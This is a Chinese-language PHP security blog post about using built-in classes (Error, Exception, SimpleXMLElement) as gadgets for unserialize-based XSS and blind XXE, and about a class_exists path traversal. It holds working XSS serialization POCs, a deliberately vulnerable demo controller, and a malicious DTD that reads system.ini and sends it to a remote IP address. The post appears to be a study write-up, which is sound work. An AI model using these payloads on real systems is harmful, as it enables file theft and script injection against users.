




前言
最近在学习的时候看了一个师傅的博客，里面提到的知识点可以扩大我们的攻击面，这里记录一下自己对这些知识点的理解和运用
反序列化
这和我们平时遇到的反序列化利用不同，在不能使用phar协议进行反序列化的时候，通常我们挖掘反序列化POP链时的需要的条件：
- 存在可控的反序列化参数
- 程序中存在可用的类并且存在
wakeup()或destruct()魔法函数 - 该类在魔法函数中能否在当前调用中触发
- Error
Error类就是php的一个内置类用于自动自定义一个Error，在php7的环境下可能会造成一个xss漏洞，原因是该类存在一个__toString方法，我们来复习一下__toString方法。__toString()
__toString()：当一个对象被当作一个字符串使用。此方法必须返回一个字符串，否则将发出一条E_RECOVERABLE_ERROR级别的致命错误。当一个对象被当作一个字符串使用时候会触发。
- 由于php的语言特性，php一些函数会自动完成类型转换，下面是
__toString()方法的触发条件
- echo ($obj) / print($obj) 打印时会触发
- 反序列化对象与字符串连接时
- 反序列化对象参与格式化字符串时
- 反序列化对象与字符串进行
==比较时（PHP进行==比较的时候会转换参数类型） - 反序列化对象参与格式化SQL语句，绑定参数时
- 反序列化对象在经过php字符串函数，如 strlen()、addslashes()时
- 在in_array()方法中，第一个参数是反序列化对象，第二个参数的数组中有toString返回的字符串的时候toString会被调用
- 反序列化的对象作为 class_exists() 的参数的时候
所以结果很显然了，我们写一个demo来测试一下是否能触发XSS，就拿我上篇laravel反序列化的demo来测试一下1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
namespace App\Http\Controllers\Test;
use Illuminate\Http\Request;
use App\Http\Controllers\Controller;
class TestController extends Controller
{
public function Test()
{ //test unserialize
$code = $_GET['c'];
unserialize($code);
echo $code;
}
}
- POC可以看到成功弹窗
1
2$a = new Error("<script>alert(1)</script>");
echo urlencode(serialize($a));

- Exception
这个类利用的方式和原理和Error类一样，不同是它适用于PHP5和PHP7，所以更好用
- POC弹窗成功
1
2$a = new Exception("<script>alert(1)</script>");
echo urlencode(serialize($a));

XXE
下面的代码来源于PHP SECURITY CALENDAR 2017
1 | class HomeController |
这个代码存在两种漏洞，第一种是任意文件读取，第二个就是盲打XXE。
- 任意文件读取
这个漏洞的触发点在class_exists，我们来看php手册如何解释这个函数

可以看到该函数存在2个参数，第一个是要检查的类，第二个参数autoload决定是否默认调用 __autoload。可以看到默认是True这个漏洞只能在php5.3之下利用
- 变量
$controllerName可控，进入if判断我们传入的类是否存在，不存在则调用__autoload尝试加载，如果我们传入../../../../etc/passwd，就造成了任意文件读取
由于我这里没有这么低版本的环境，就没有测试下去了（大于php5.3版本传入类名包含.和/就会自动跳出）
- XXE
这里我们利用到了PHP的一个原生类SimpleXMLElement
- 首先看源代码，漏洞触发点是在
$controller = new $controllerName($data['t'], $data['v']);实例化对象这里，这里用到了可变变量，所以我们new一个任意的对象。 - 接下来看原生类SimpleXMLElement的构造方法

参数： - data：格式正确的XML字符串，当参数
data_is_url是True时，传入一个URL字符串 - options：（可选）用于指定其他Libxml参数。
思路就是传入一个SimpleXMLElement类进行实例化，当XML外部实体可控，就造成XXE，源码没有echo等函数回显，所以我们利用盲打XXE
过程
- 首先我们在在本地上传一个
test2.dtd文件这里我们用到了参数实体，顺便写一下两种实体的区别1
2<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C:/Windows/system.ini">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://10.3.131.118:1111?p=%file;'>">
- 通用实体
用&实体名;，引用的实体（例如上面的&xxe;），他在DTD 中定义，在 XML 文档中引用1
2
3
4
5
6
7
<updateProfile>
<firstname>Joe</firstname>
<lastname>&file;</lastname>
...
</updateProfile> - 参数实体：
- 使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用
%实体名;引用 - 只有在 DTD 文件中，参数实体的声明才能引用其他实体
- 和通用实体一样，参数实体也可以外部引用
1
2
3<!ENTITY % an-element "<!ELEMENT mytag (subtag)>">
<!ENTITY % remote-dtd SYSTEM "http://localhost/test.dtd">
%an-element; %remote-dtd;参数实体在我们 Blind XXE 中起到了至关重要的作用
- 使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用